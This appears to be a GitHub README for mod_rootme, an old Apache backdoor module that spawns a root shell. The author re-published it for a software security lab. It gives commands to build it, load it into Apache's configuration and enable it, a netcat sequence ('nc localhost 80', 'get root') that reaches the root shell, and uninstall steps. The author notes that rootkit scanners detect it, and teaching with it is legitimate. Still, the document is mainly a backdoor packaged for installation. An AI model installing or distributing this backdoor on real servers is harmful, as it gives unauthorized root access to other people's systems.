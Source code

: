 # mod_rootme

mod_rootme is a Apache backdoor module that can spawn a root shell.

I used this module while teaching a software security lab.  The module
has been around for a while, but
[the blog](http://blog.danfego.net/2009/10/update-to-mod_rootme/) that
hosted the most recent version seems to have disappeared from the web.
Malware detection programs such as 'rkhunter' and 'unhide' can
trivially detect the presence of mod_rootme, so it should not be too
harmful to have this code in circulation again.

This repository is imported from an old archive I happened to find
from my old class files (mod_rootme-0.4.tar.gz), updated to build on
Debian GNU/Linux 8.0.

See README.old.txt for the original documentation.

## Build instructions

To build and test on a Debian/Ubuntu system, you would need apache2
and apache2-dev.  Run 'make' and 'sudo make install' to build the
module, and enable it in httpd configuration, perhaps like so:

```
sudo sh -c \
'echo "LoadModule rootme_module \
/usr/lib/apache2/modules/mod_rootme.so" | sudo tee > \
/etc/apache2/mods-available/rootme.load'
```

Now to enable the module:

```
sudo a2enmod rootme
sudo service apache2 restart
```

To check that the root shell is indeed available:

```
nc localhost 80
get root
id
```

To uninstall the module:

```
sudo a2dismod rootme
rm /usr/lib/apache2/modules/mod_rootme.so
sudo service apache2 restart
```
